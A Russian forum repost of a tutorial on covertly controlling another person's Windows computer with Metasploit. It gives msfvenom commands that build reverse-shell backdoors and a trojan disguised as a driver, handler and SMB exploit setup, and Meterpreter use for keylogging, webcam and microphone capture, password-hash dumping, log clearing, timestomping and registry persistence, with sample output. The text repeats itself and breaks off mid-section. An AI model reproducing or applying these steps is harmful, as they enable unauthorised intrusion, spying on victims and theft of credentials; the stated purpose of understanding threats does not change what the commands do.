Статья не новая, нашел на старом форуме, но не плохо описано всё.
Возможно какие-то команды могут устареть, но думаю есть аналоги, читайте справку, в остальном всё актуально должно быть.)
1. Введение
В этой заметке будет рассмотрен вопрос скрытого управление компьютером на Windows.
Указанная задача может быть решена различными способами. В том числе с применением легитимных программ – к примеру, VNC серверами, TeamViewer (если добавить в автозапуск и скрыть отображение иконки в трее), а также специализированного ПО, в том числе коммерческого. Здесь будет показано, как контролировать чужой компьютер используя Metasploit.
Статья не охватывает проблему доставки полезной нагрузки, инфицирования компьютера жертвы и вопросы предотвращения обнаружения, в том числе антивирусами. Главная цель этого материала – взглянуть на бэкдор глазами хакера для понимания принципов работы и значения угроз. Будет показано, как получить полный доступ над файловой системой, загружать или запускать любой файл, менять разнообразные системные настройки и даже выходить за пределы компьютера: делать снимки веб-камерой, делать видео- и аудио- захват с веб-камеры.
На протяжении все статьи будет постоянно употребляться термин «полезная нагрузка» (payload) и некоторые другие. Поэтому начнём с определения этих понятий.
2. Что такое полезная нагрузка (payload)
В статьях и учебниках по компьютерной безопасности можно часто встретить слово payload. Буквально оно переводится как «полезная нагрузка». Под этим словом подразумевают код или часть вредоносной программы (червей, вирусов), который непосредственно выполняет деструктивное действие: удаляет данные, отправляет спам, шифрует данные, открывает подключение для хакера и т.д. Вредоносные программы также имеют overhead code (буквально «служебный код»), под которым понимается та часть кода, которая отвечает за доставку на атакуемую машину, самостоятельное распространения вредоносной программы или препятствует обнаружению.
Т.е. «полезная нагрузка» для пользователя («жертвы») является совсем не полезной.
Для атакующего полезная нагрузка является ключевым элементом, который необходимо доставить на компьютер цели и выполнить. Код полезной нагрузки может быть написан самостоятельно (и это правильный подход, позволяющий значительно снизить шансы обнаружения антивирусами – в этом вы быстро убедитесь сами, если будете пробовать запускать исполнимые файлы с полезной нагрузкой в системах с установленным антивирусом), а можно воспользоваться разнообразными генераторами полезной нагрузки. Суть работы этих программ заключается в том, что вы выбираете типичную задачу (например, инициализация оболочки для ввода команд с обратным подключением), а генератор выдаёт вам исполнимый код под выбранную платформу. Если у вас нет навыков в программировании, то это единственный возможный вариант.
Одним из самых популярных генераторов полезной нагрузки является MSFvenom. Это самостоятельная часть Metasploit, предназначенная для генерации полезной нагрузки.
3. Что такое бэкдоры и трояны
Бэкдор – это программа или технология, дающая несанкционированный доступ к компьютеру или другому устройству (роутер, телефон).
В нашем случае, генерируемая с помощью MSFvenom полезная нагрузка является бэкдором.
Троян – это программа, которая замаскирована под легитимную программу, но несёт в себе полезную нагрузку. Очень часто этой полезной нагрузкой является бэкдор.
Т.е. если мы к файлу программы «Калькулятор», добавили полезную нагрузку – это будет троянская программа с бэкдором. Если мы сгенерировали полезную нагрузку, разместили на компьютере цели и, например, добавили файл в автозагрузку – то это будет бэкдор.
Иногда термины троян и бэкдор используют как взаимозаменяемые. Антивирусные компании при наименовании вирусов обычно используют Trojan, даже если программа не маскируется под другую легитимную программу, а является чистым бэкдором, поскольку для доставления полезной нагрузки часто используется социальная инженерия – что вполне вписывается в концепцию Троянского Коня.
Для целей этой статьи классификация на трояны и бэкдоры неважна. MSFvenom генерирует бэкдоры, но с ключом -x (позволяющим указывать пользовательский исполнимый файл для использования в качестве шаблона) можно генерировать трояны, у которых в качестве полезной нагрузки будет бэкдор.
4. Инструкция по использованию MSFvenom – генератора полезной нагрузки
Msfvenom – это программа, которая комбинирует генерацию полезной нагрузки и кодирование. Она заменила две другие программы – msfpayload и msfencode, это произошло 8 июня 2015.
Знакомство с программой начнём со справки по её опциям.
Использование:
Опции:
В справке упоминается nopsled, вы можете найти дополнительную информацию о NOP slide в Википедии (хотя для наших целей это неважно).
5. Как создать полезную нагрузку
Для генерации полезной нагрузки обязательными являются два флага: -p and -f.
Пример команды:
Здесь:
Как уже было сказано, флаг -p является обязательным. После него нужно указать то, чего мы хотим от полезной нагрузки.
Чтобы вывести список всех полезных нагрузок, которые поддерживает платформа Metasploit, выполните команду:
Будет выведен такой список:
Список длинный, включает в себя 486 пунктов (на момент написания) под самые разные платформы. Каждая запись состоит из двух столбцов: название полезной нагрузки (которое нужно указывать после опции -p) и её краткое описание.
Название начинается с указания платформы, затем может идти используемая техника или архитектура, в самом конце будет указана основная цель полезной нагрузки. Например, запись windows/meterpreter/reverse_tcp означает внедрение DLL сервера meterpreter через Reflective Dll Injection payload, с образованием обратного соединения до атакующего. Говоря простыми словами, будет создан реверсивный (обратный) шелл до атакующего, который позволит ему управлять целевым компьютером через meterpreter.
Слово meterpreter означает управление через Meterpreter (полное название Meta-Interpreter). Это многогранная программа, она является частью Metasploit с 2004. Работает она через dll внедрение. Скрипты и плагины загружаются и выгружаются динамически. Основы работы с Meterpreter будут раскрыты ниже.
Во многих названиях используются слова bind и reverse. Слово bind означает, что на атакуемой машине процесс будет прослушивать определённый порт, ожидая, пока атакующий подключится к нему. А reverse означает, что на атакуемой машине процесс программы сам инициализирует соединение до атакующего. Поскольку многие файерволы настроены на разрешение исходящих соединений, то обратное (reverse) соединение даёт шанс обойти файервол.
Ключевое слово vncinject означает задействование технологии Virtual Network Computing (VNC) – удалённого доступа к рабочему столу.
Если в имени полезной нагрузки присутствует upexec, значит её цель загрузить и выполнить исполнимый файл.
shell означает открытие командной оболочки.
Ключевое слово dllinject относится к технике Reflective DLL injection. При её использовании полезная нагрузка внедряется в запущенный процесс, прямо в оперативной памяти. При этом она никогда не касается жёстких дисков. Полезные нагрузки VNC и Meterpreter используют reflective DLL injection.
В самом конце обычно стоит указание на используемый для соединения протокол, им может быть: http, https, tcp, ipv6_tcp, tcp_dns, winhttp, winhttps и другие варианты. Могут использоваться слова proxy (соответственно, соединение через прокси), allports (пробовать соединиться на всех возможных портах), uuid (соединение с поддержкой UUID).
Имеется несколько специфичных полезных нагрузок:
Большую группу составляют полезные нагрузки, открывающие доступ к оболочке, серверу meterpreter – после их запуска пользователь должен к ним подключиться для выполнения команд.
7. Как узнать опции полезной нагрузки MSFvenom
У многих полезных нагрузок имеются опции. Для их показа применяется флаг --payload-options. Также нужно использовать флаг -p, после которого нужно указать название интересующей полезной нагрузки.
Примеры:
Будет выведено:
Столбец Required показывает, является ли опция обязательной. Для некоторых опций предусмотрено значение по умолчанию. Если для обязательной опции отсутствует значение по умолчанию, то его нужно указать при генерации полезной нагрузки. Например, для windows/meterpreter/reverse_tcp нужно обязательно указать LHOST.
Вспомним наш пример:
В нём lport=4444 можно было не указывать, поскольку всё равно применяется значение по умолчанию. А опция LHOST установлена как «lhost=IP_атакующего».
8. Форматы полезной нагрузки
Как уже было сказано, вторым обязательным флагом является -f. Он устанвливает формат полезной нагрузки.
Чтобы вывести список всех поддерживаемых форматов, выполните команду:
Будет выведено:
9. Примеры генерации полезной нагрузки в MSFvenom
Один из популярных вариантов создания полезной нагрузки под Windows уже показан выше:
Чтобы узнать ваш IP адрес, вы можете, например, воспользоваться командой
ip a
Чтобы узнать внешний IP:
curl suip.biz/ip/
Поскольку я моделирую атаку в локальной сети, то я буду использовать локальный IP компьютера с Kali Linux (192.168.0.196):
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.196 lport=4444 -f exe -o backdoor.exe
Программа выведет:
И будет создан файл backdoor.exe.
Можно комбинировать несколько полезных нагрузок. Это позволяет сделать опция -c, которая указывает на файл с шеллколом win32, который должен быть включён в создаваемую полезную нагрузку.
Пример:
msfvenom -p windows/messagebox ICON="INFORMATION" TITLE="Compatibility test" TEXT="The test is processed" -f raw -o mes1
Мы использовали полезную нагрузку windows/messagebox (создаёт диалоговое окно), эта полезная нагрузка без кодирования (-f raw) была сохранена в файл mes1.
Далее мы вновь используем windows/messagebox, и без кодирования сохраняем в файл mes2. После ключа -c мы указываем файл (mes1), который должен быть включён в создаваемую полезную нагрузку.
msfvenom -c mes1 -p windows/messagebox ICON="ERROR" TITLE="Error" TEXT="Missing necessary files" -f raw -o mes2
Наконец, уже знакомая нам команда по созданию исполнимого файла, обратите внимание на опцию -c mes2, ей мы добавляем в создаваемый бинарник ранее сгенерированный файл mes2, который уже содержит mes1:
msfvenom -c mes2 -p windows/meterpreter/reverse_tcp lhost=192.168.0.196 lport=4444 -f exe -o driver_dlya_tvoego_computera.exe
Будет создан файл driver_dlya_tvoego_computera.exe, который при запуске покажет два окна и после этого попытается подключиться к удалённому компьютеру.
Опция -x позволяет указать существующий исполнимый файл (шаблон). Это можно делать для уменьшения подозрения пользователя (исполнимый файл может выполнять полезную для пользователя функцию), либо таким образом можно попытаться заменить уже существующий в системе файл.
Опция -k вместе с предыдущей сохранит нормальное поведение шаблона, и внедрённая полезная нагрузка будет выполняться как отдельный поток:
msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
10. Работа с бэкдорами в Metasploit
На «атакующей» машине запускаем Metasploit:
msfconsole
Далее
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
Обратите внимание, что если вместо windows/meterpreter/reverse_tcp вы выбрали другую полезную нагрузку, то в предыдущей команде замените эту строку на свою.
Нужно установить настройки – IP и порт локальной машины:
set LHOST 192.168.0.196
set LPORT 4444
Не забудьте строку 192.168.0.196 поменять на свой IP адрес. Если вы не меняли порт, то его можно не настраивать, поскольку значением по умолчанию является 4444.
Когда настройки сделаны, запустите выполнение модуля:
run
Теперь на «цели» запустите исполнимый файл с полезной нагрузкой. Как только это будет сделано, бэкдор подключится к машине атакующего и откроется сессия meterpreter:
11. Основы работы в Meterpreter (Meta-Interpreter)
Для показа справки наберите ? или help. Разнообразных команд много. Думаю, стоит затратить время, чтобы ознакомится с ними со всеми. Если вы хотите получить информацию об опциях конкретной команды, напишите команду и добавьте флаг -h, например, следующая команда покажет опции модуля для управления веб-камерой:
webcam_snap -h
Основные команды:
Команда Описание
------- -----------
? Справка
background Перевести в фон текущую сессию
bgkill Убивает фоновый скрипт meterpreter
bglist Список запущенных в фоне скриптов
bgrun Выполнить скрипт meterpreter как фоновый процесс
channel Показывает информацию или управляет активными каналами
close Закрыть канал
disable_unicode_encoding Отключает кодирование unicode строк
enable_unicode_encoding Включает кодирование unicode строк
exit Прекращает сессию meterpreter
get_timeouts Получает значение таймаута текущей сессии
help Справка
info Показывает информацию о модуле Post
irb Перебрасывает в скриптовый режим irb
load Загружает один или более расширений meterpreter
machine_id Получить MSF ID прикреплённой к сессии машины
migrate Перенастроить сервер на другой процесс
quit Прекратить сессию meterpreter
read Считывает данные из канала
resource Запуск команд, сохранённых в файл
run Выполнить скрипт meterpreter или модуль Post
sessions Быстро переключиться на другой сеанс
set_timeouts Установить значение таймаута текущего сеанса
sleep Заставить Meterpreter замолчать, а затем восстановить сеанс.
transport Изменение текущего механизма передачи
use Устаревший псевдоним для 'load'
uuid Получить UUID текущего сеанса
write Записать данные в канал
Итак, с помощью ключевых команд мы можем автоматизировать процесс (выполнять команды из файла), записывать данные в канал, для последующего использования, выполнять долгие задачи в фоне. Особенно обратим внимание на команды info и run – первая покажет информацию об интересующем модуле последующей эксплуатации, а вторая запустит выбранный модуль – к этим вопросам мы вернёмся позже.
Рассмотрим команды файловой системы, некоторые из них имеют одинаковые названия с аналогичными командами в оболочке Linux:
Команда Описание
------- -----------
cat Вывести содержимое файла на экран
cd Сменить директорию
checksum Получить контрольную сумму файла
cp Скопировать файл/директорию в другое место
dir Вывести список файлов (псевдоним для ls)
download Загрузить файл или директорию
edit Отредактировать файл
getlwd Вывести локальную рабочую директорию
getwd Вывести рабочую директорию
lcd Изменить локальную рабочу директорию
lpwd Вывести локальную рабочую директорию
ls Показать список файлов
mkdir Создать директорию
mv Переместить файл/директорию в другое место
pwd Вывести рабочую директорию
rm Удалить указанный файл
rmdir Удалить директорию
search Поиск файлов
show_mount Вывести всех точек монтирования/логических дисков
upload Выгрузить файл или директорию
Например, я хочу на удалённый компьютер выгрузить файл driver_dlya_tvoego_computera.exe:
upload driver_dlya_tvoego_computera.exe
Просматриваем список файлов на удалённом компьютере и загружаем с него файл allen.zip:
ls
download allen.zip
Сетевые команды:
Команда Описание
------- -----------
arp Показать ARP кэш хоста
getproxy Показать текущие настройки прокси
ifconfig Показать интерфейсы
ipconfig Показать интерфейсы
netstat Показать сетевые соединения
portfwd Перенаправить локальный порт на удалённую службу
resolve Сделать запросы с цели на преобразование одного или нескольких имён хостов
route Просмотр и изменение таблицы маршрутизации
Системные команды:
Команда Описание
------- -----------
clearev Очистить журнал событий
drop_token Отбрасывает любой активный токен имперсонализации.
execute Выполнить команду
getenv Получить значение одной или более переменных окружения
getpid Получить идентификатор текущего процесса
getprivs Попытаться включить все привилегии, доступные для текущего процесса
getsid Получение SID пользователя
getuid Получение имени пользователя
kill Завершить процесс
localtime Показать локальную дату и время целевой системы
pgrep Фильтрация процессов по имени
pkill Завершить процесс по имени
ps Список запущенных процессов
reboot Перезагрузить удалённый компьютер
reg Изменение и взаимодействие с удалённым регистром
rev2self Вызов RevertToSelf() на удалённой машине
shell Перейти в системную командную оболочку
shutdown Отключить удалённый компьютер
steal_token Попытаться украсть impersonation token из целевого процесса
suspend Приостанавливает или возобновляет список процессов
sysinfo Получает информацию об удалённой системе, такую как вид ОС
Системные команды позволяют получить доступ к удалённой оболочке, что даёт возможность непосредственно вводить команды, позволяют завершать процессы, выключать или перезагружать компьютер, выполнять команды уровня ОС, а также собирать информацию и заметать следы.
Команды пользовательского интерфейса:
Команда Описание
------- -----------
enumdesktops Список всех доступных рабочих столов и оконных станций
getdesktop Получить текущий рабочий стол meterpreter
idletime Возвращает количество секунд отсутствия активности удалённого пользователя
keyscan_dump Дамп буфера нажатия клавиш
keyscan_start Запустить захват нажатие клавиш
keyscan_stop Остановить захват нажатия клавиш
screenshot Получение скриншота интерактивного рабочего стола
setdesktop Изменение текущего рабочего стола meterpreters
uictl Контроль некоторых компонентов пользовательских интерфейсов
Данный набор команд позволяет делать скриншоты с удалённого компьютера, отключать и включать мышь, клавиатуру, следить на нажатыми пользователем клавишами.
Для начала захвата нажатия клавиш введите:
keyscan_start
Чтобы посмотреть, какие клавиши и в каких программах ввёл пользователь выполните:
keyscan_dump
Команды для управления веб-камерой:
Команда Описание
------- -----------
record_mic Запись аудио со стандартного микрофона в течение X секунд
webcam_chat Начать видеочат
webcam_list Вывести список веб-камер
webcam_snap Сделать снимок указанной веб-камерой
webcam_stream Запустить выдиопоток с выбранной веб-камеры
На мой взгляд, очень интересные функции. Чтобы проверить, имеет ли компьютер жертвы веб-камеры выполните
webcam_list
В моём случае обнаружена одна веб-камера SC-20FHL11146M, чтобы сделать с неё снимок набираю (замените имя веб-камеры):
webcam_snap SC-20FHL11146M
Будет сделана и показана фотография с веб-камеры удалённого компьютера.
Команды повышения привилегий:
Команда Описание
------- -----------
getsystem Пытается поднять ваши привилегии на данной локальной системе.
Команда для работы с базой данных паролей:
Команда Описание
------- -----------
hashdump Дампит содержимое базы данных SAM
Команды для работы с Timestomp (временными метками файла):
Команда Описание
------- -----------
timestomp Манипуляция файловыми атрибутами MACE
Чтобы замести следы, иногда может быть полезным изменить атрибуты MACE (запись изменения, доступа, создания) файла.
12. Скрытый доступ к удалённому рабочему столу (VNC)
Для скрытого доступа к удалённому рабочему столу посредством VNC нужно выбрать полезную нагрузку, содержащую слово vncinject, к примеру, такой полезной нагрузкой является windows/vncinject/reverse_tcp:
msfvenom -p windows/vncinject/reverse_tcp lhost=192.168.0.196 -f exe -o vnc.exe
Далее запустите Metasploit (если вы это ещё не сделали):
msfconsole
Внутри Metasploit:
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set payload windows/vncinject/reverse_tcp
set lhost 192.168.0.196
set rhost 192.168.0.244
run
Обратите внимание, что в отличие от работы с Meterpreter, мы используем exploit/windows/smb/ms09_050_smb2_negotiate_func_index. Также нам необходимо установить IP адрес удалённого хоста (set rhost 192.168.0.244).
После запуска эксплойта, запустите исполнимый файл с полезной нагрузкой на компьютере жертвы. Вы увидите удалённый рабочий стол компьютера жертвы.
В качестве альтернативы, можно использовать 64-битную версию полезной нагрузки: windows/x64/vncinject/reverse_tcp.
На машине атакующего должен быть установлен VNC клиент (просмотрщик).
13. Закрепление доступа
До недавнего времени для закрепления доступа – создания бэкдора, который запускается при каждой загрузки системы – использовался скрипт persistence:
run persistence -h
Но в настоящее время скрипты Meterpreter считаются устаревшими, поэтому рекомендуется использовать модуль post/windows/manage/persistence_exe. Это Windows Manage Persistent EXE Payload Installer, т.е. установщик постоянной полезной нагрузки EXE в Windows.
Этот модуль выгрузит на удалённый хост исполнимый файл и сделает его постоянным – т.е. скопирует в определённое место и добавит ключ в реестр Windows для автоматического запуска при каждом старте Windows. Он может быть установлен как USER, SYSTEM или SERVICE. При выборе USER, программа запустится при входе пользователя; при выборе SYSTEM – запустится при загрузке системы, для этого требуются соответствующие привилегии; при выборе SERVICE будет создана служба, которая запустит полезную нагрузку, также требуются привилегии.
Опции модуля:
Пример запуска
run post/windows/manage/persistence_exe REXEPATH=/local/path/to/your/payload.exe REXENAME=default.exe STARTUP=SYSTEM
Эта команда означает, что на удалённый хост будет выгружен файл payload.exe, который на локальной системе размещён по пути /local/path/to/your/payload.exe, этот файл на удалённой системе будет переименован в default.exe и будет запущен с системными привилегиями.
Ещё один пример:
run post/windows/manage/persistence_exe REXEPATH=/home/mial/backdoor2.exe
Модуль вывел следующую информацию:
[*] Running module against MIAL-PC
[*] Reading Payload from file /home/mial/backdoor2.exe
[+] Persistent Script written to C:\Users\Alex\AppData\Local\Temp\default.exe
[*] Executing script C:\Users\Alex\AppData\Local\Temp\default.exe
[+] Agent executed with PID 6572
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MHlFtyrXIllAQ
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MHlFtyrXIllAQ
[*] Cleanup Meterpreter RC File: /home/mial/.msf4/logs/persistence/MIAL-PC_20170519.0352/MIAL-PC_20170519.0352.rс
Т.е. на удалённой системе файл сохранён по пути C:\Users\Alex\AppData\Local\Temp\default.exe, для автозапуска сделана запись в реестре Windows по пути HKCU\Software\Microsoft\Windows\CurrentVersion\Run\MHlFtyrXIllAQ.
14. Модули последующей эксплуатации Metasploit
post/windows/manage/persistence_exe – это всего лишь один из модулей последующей эксплуатации, которые присутствуют в Metasploit для Windows.
Некоторые примеры:
Все эти модули можно применять во время сеанса Meterpreter.
15. Когда обратный шелл не нужен
Если вы можете установить бэкдор на целевой компьютер, то вполне возможно, что вам подойдут другие альтернативы, а обратный шелл просто не нужен. Например, если на целевой машине уже запущен SSH сервер, то вы можете попытаться добавить к нему нового пользователя и использовать его.
Если целевая машина – это веб-сервер, который поддерживает на стороне сервера язык программирования, то вы можете оставить бэкдор на этом языке. Например, многие сервера Apache поддерживают PHP, в этом случае вы можете использовать PHP "web shell". IIS сервера обычно поддерживают ASP, или ASP.net. Metasploit Framework предлагает полезные нагрузки на всех этих языках (и многих других).
Аналогично для VNC, удалённого рабочего стола, SMB (psexec), других инструментов удалённого администрирования и т.д.
16. Заключение
Итак, как мы могли сами убедиться MSFvenom позволяет генерировать полезную нагрузку, а Meterpreter помогает скрыто управлять удалённой системой.
В целом это обзорная статья, цель которой – показать некоторые возможности Metasploit. В реальной практической ситуации нужно подобрать полезную нагрузку в соответствии с разными сценариями: на случай смены IP жертвой, на случай смены IP атакующим, решить проблемы доставки полезной нагрузки и избежание обнаружения антивирусами.
Возможно какие-то команды могут устареть, но думаю есть аналоги, читайте справку, в остальном всё актуально должно быть.)
1. Введение
В этой заметке будет рассмотрен вопрос скрытого управление компьютером на Windows.
Указанная задача может быть решена различными способами. В том числе с применением легитимных программ – к примеру, VNC серверами, TeamViewer (если добавить в автозапуск и скрыть отображение иконки в трее), а также специализированного ПО, в том числе коммерческого. Здесь будет показано, как контролировать чужой компьютер используя Metasploit.
Статья не охватывает проблему доставки полезной нагрузки, инфицирования компьютера жертвы и вопросы предотвращения обнаружения, в том числе антивирусами. Главная цель этого материала – взглянуть на бэкдор глазами хакера для понимания принципов работы и значения угроз. Будет показано, как получить полный доступ над файловой системой, загружать или запускать любой файл, менять разнообразные системные настройки и даже выходить за пределы компьютера: делать снимки веб-камерой, делать видео- и аудио- захват с веб-камеры.
На протяжении все статьи будет постоянно употребляться термин «полезная нагрузка» (payload) и некоторые другие. Поэтому начнём с определения этих понятий.
2. Что такое полезная нагрузка (payload)
В статьях и учебниках по компьютерной безопасности можно часто встретить слово payload. Буквально оно переводится как «полезная нагрузка». Под этим словом подразумевают код или часть вредоносной программы (червей, вирусов), который непосредственно выполняет деструктивное действие: удаляет данные, отправляет спам, шифрует данные, открывает подключение для хакера и т.д. Вредоносные программы также имеют overhead code (буквально «служебный код»), под которым понимается та часть кода, которая отвечает за доставку на атакуемую машину, самостоятельное распространения вредоносной программы или препятствует обнаружению.
Т.е. «полезная нагрузка» для пользователя («жертвы») является совсем не полезной.
Для атакующего полезная нагрузка является ключевым элементом, который необходимо доставить на компьютер цели и выполнить. Код полезной нагрузки может быть написан самостоятельно (и это правильный подход, позволяющий значительно снизить шансы обнаружения антивирусами – в этом вы быстро убедитесь сами, если будете пробовать запускать исполнимые файлы с полезной нагрузкой в системах с установленным антивирусом), а можно воспользоваться разнообразными генераторами полезной нагрузки. Суть работы этих программ заключается в том, что вы выбираете типичную задачу (например, инициализация оболочки для ввода команд с обратным подключением), а генератор выдаёт вам исполнимый код под выбранную платформу. Если у вас нет навыков в программировании, то это единственный возможный вариант.
Одним из самых популярных генераторов полезной нагрузки является MSFvenom. Это самостоятельная часть Metasploit, предназначенная для генерации полезной нагрузки.
3. Что такое бэкдоры и трояны
Бэкдор – это программа или технология, дающая несанкционированный доступ к компьютеру или другому устройству (роутер, телефон).
В нашем случае, генерируемая с помощью MSFvenom полезная нагрузка является бэкдором.
Троян – это программа, которая замаскирована под легитимную программу, но несёт в себе полезную нагрузку. Очень часто этой полезной нагрузкой является бэкдор.
Т.е. если мы к файлу программы «Калькулятор», добавили полезную нагрузку – это будет троянская программа с бэкдором. Если мы сгенерировали полезную нагрузку, разместили на компьютере цели и, например, добавили файл в автозагрузку – то это будет бэкдор.
Иногда термины троян и бэкдор используют как взаимозаменяемые. Антивирусные компании при наименовании вирусов обычно используют Trojan, даже если программа не маскируется под другую легитимную программу, а является чистым бэкдором, поскольку для доставления полезной нагрузки часто используется социальная инженерия – что вполне вписывается в концепцию Троянского Коня.
Для целей этой статьи классификация на трояны и бэкдоры неважна. MSFvenom генерирует бэкдоры, но с ключом -x (позволяющим указывать пользовательский исполнимый файл для использования в качестве шаблона) можно генерировать трояны, у которых в качестве полезной нагрузки будет бэкдор.
4. Инструкция по использованию MSFvenom – генератора полезной нагрузки
Msfvenom – это программа, которая комбинирует генерацию полезной нагрузки и кодирование. Она заменила две другие программы – msfpayload и msfencode, это произошло 8 июня 2015.
Знакомство с программой начнём со справки по её опциям.
Использование:
Код:
/usr/bin/msfvenom [опции] <переменная=значение>
Код:
-p, --payload <полезная нагрузка> Используемая полезная нагрузка. Укажите '-' или stdin для использования пользовательской полезной нагрузки
--payload-options Показывает список опций для полезной нагрузки
-l, --list [тип] Выводит список типов модулей. Опциями являются: payloads, encoders, nops, all
-n, --nopsled <длина> Подготовить nopsled [длинной] к полезной нагрузке
-f, --format <формат> Формат вывода (используйте --help-formats для вывода форматов)
--help-formats Показать список доступных форматов
-e, --encoder <инкодер> Кодировщик для использования
-a, --arch <arch> Архитектура для использования
--platform <платформа> Платформа полезной нагрузки
--help-platforms Вывести списки платформ
-s, --space <длина> Максимальная длина конечной полезной нагрузки
--encoder-space <длина> Максимальная длина кодированной полезной нагрузки (по умолчанию используется значение из -s)
-b, --bad-chars <список> Список символов, которые нужно избегать, пример: '\x00\xff'
-i, --iterations <счётчик> Количество раз кодирования полезной нагрузки
-c, --add-code <путь> Укажите дополнительный файл шеллкода win32 для внедрения
-x, --template <путь> Указать пользовательский исполнимый файл для использования в качестве шаблона
-k, --keep Сохранить template behavior и вставить полезную нагрузку как новый поток
-o, --out <путь> Сохранить полезную нагрузку
-v, --var-name <имя> Укажите имя пользовательской переменной, которое будет использоваться для определенных форматов вывода
--smallest Сгенерировать самую маленькую из возможных полезных нагрузок
-h, --help Показать справку5. Как создать полезную нагрузку
Для генерации полезной нагрузки обязательными являются два флага: -p and -f.
Пример команды:
Код:
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP_атакующего lport=4444 -f exe -o /tmp/my_payload.exe- -p windows/meterpreter/reverse_tcp – выбранный тип полезной нагрузки
- lhost=IP_атакующего – адрес атакующего, для обратного соединения с компьютера жертвы
- lport=4444 – порт, к которому будет делаться обратное соединение
- -f exe – формат полезной нагрузки (исполнимый файл Windows)
- -o /tmp/my_payload.exe – сохранить сгенерированный код в указанный файл
Как уже было сказано, флаг -p является обязательным. После него нужно указать то, чего мы хотим от полезной нагрузки.
Чтобы вывести список всех полезных нагрузок, которые поддерживает платформа Metasploit, выполните команду:
Код:
msfvenom -l payloads

Список длинный, включает в себя 486 пунктов (на момент написания) под самые разные платформы. Каждая запись состоит из двух столбцов: название полезной нагрузки (которое нужно указывать после опции -p) и её краткое описание.
Название начинается с указания платформы, затем может идти используемая техника или архитектура, в самом конце будет указана основная цель полезной нагрузки. Например, запись windows/meterpreter/reverse_tcp означает внедрение DLL сервера meterpreter через Reflective Dll Injection payload, с образованием обратного соединения до атакующего. Говоря простыми словами, будет создан реверсивный (обратный) шелл до атакующего, который позволит ему управлять целевым компьютером через meterpreter.
Слово meterpreter означает управление через Meterpreter (полное название Meta-Interpreter). Это многогранная программа, она является частью Metasploit с 2004. Работает она через dll внедрение. Скрипты и плагины загружаются и выгружаются динамически. Основы работы с Meterpreter будут раскрыты ниже.
Во многих названиях используются слова bind и reverse. Слово bind означает, что на атакуемой машине процесс будет прослушивать определённый порт, ожидая, пока атакующий подключится к нему. А reverse означает, что на атакуемой машине процесс программы сам инициализирует соединение до атакующего. Поскольку многие файерволы настроены на разрешение исходящих соединений, то обратное (reverse) соединение даёт шанс обойти файервол.
Ключевое слово vncinject означает задействование технологии Virtual Network Computing (VNC) – удалённого доступа к рабочему столу.
Если в имени полезной нагрузки присутствует upexec, значит её цель загрузить и выполнить исполнимый файл.
shell означает открытие командной оболочки.
Ключевое слово dllinject относится к технике Reflective DLL injection. При её использовании полезная нагрузка внедряется в запущенный процесс, прямо в оперативной памяти. При этом она никогда не касается жёстких дисков. Полезные нагрузки VNC и Meterpreter используют reflective DLL injection.
В самом конце обычно стоит указание на используемый для соединения протокол, им может быть: http, https, tcp, ipv6_tcp, tcp_dns, winhttp, winhttps и другие варианты. Могут использоваться слова proxy (соответственно, соединение через прокси), allports (пробовать соединиться на всех возможных портах), uuid (соединение с поддержкой UUID).
Имеется несколько специфичных полезных нагрузок:
- windows/adduser. Создаёт пользователя и добавляет его в группу локальных администраторов.
- windows/dns_txt_query_exec. Выполняет TXT запросы к ряду DNS записей и выполняет полученную полезную нагрузку.
- windows/download_exec. Загружает EXE с HTTP(S)/FTP URL и выполняет его.
- windows/exec. Выполняет произвольную команду.
- windows/format_all_drives. Форматирует все смонтированные в Windows диски (также известная как ShellcodeOfDeath). Если код по каким-либо причинам не может получить доступ к диску, то он пропускает диск и переходит к обработке следующего тома.
- windows/loadlibrary. Загружает библиотеку по произвольному пути.
- windows/messagebox. Показывает диалоговое сообщение через MessageBox, используя настраиваемый заголовок, текст и иконку.
- «выстрелил и забыл» (может быть доставлена, например, на USB носителе, не требует сетевого соединения)
- требующую дополнительных действий пользователя после запуска
Большую группу составляют полезные нагрузки, открывающие доступ к оболочке, серверу meterpreter – после их запуска пользователь должен к ним подключиться для выполнения команд.
7. Как узнать опции полезной нагрузки MSFvenom
